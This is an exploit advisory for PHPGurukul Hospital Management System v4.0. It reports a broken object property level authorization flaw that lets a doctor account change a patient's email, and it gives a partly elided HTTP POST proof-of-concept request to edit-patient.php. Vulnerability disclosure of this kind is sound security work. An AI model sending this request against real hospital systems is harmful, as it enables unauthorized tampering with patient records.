 # Exploit Title: Hospital Management System v4.0 - Broken Object Property Level Authorization(BOPLA)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Phpgurukul
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from BOPLA - Broken Access Control Vulnerability allowing attacker doctor to update the email of patient that cannot modify in UI.

## ---------------------------------POC-----------------------------
```
POST /hospital/hms/doctor/edit-patient.php?editid=2 HTTP/1.1
...

patname=user1p&patcontact=111112&patemail=user1p%40test.com(CHANGE HERE)&gender=Male&pataddress=bbb&patage=20&medhis=0&submit=
```